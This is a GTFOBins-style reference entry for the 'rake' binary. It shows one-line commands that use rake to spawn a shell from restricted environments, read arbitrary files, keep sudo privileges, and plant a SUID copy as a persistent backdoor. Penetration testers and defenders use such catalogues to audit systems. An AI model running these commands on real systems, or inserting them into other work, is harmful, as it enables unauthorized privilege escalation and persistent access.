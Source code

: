 # GTFOBin: rake

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
rake -p '`/bin/sh 1>&0`'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is actually parsed and the first wrong line is returned in an error message.

```
LFILE=file-to-read
rake -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo rake -p '`/bin/sh 1>&0`'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rake) .

./rake -p '`/bin/sh 1>&0`'
```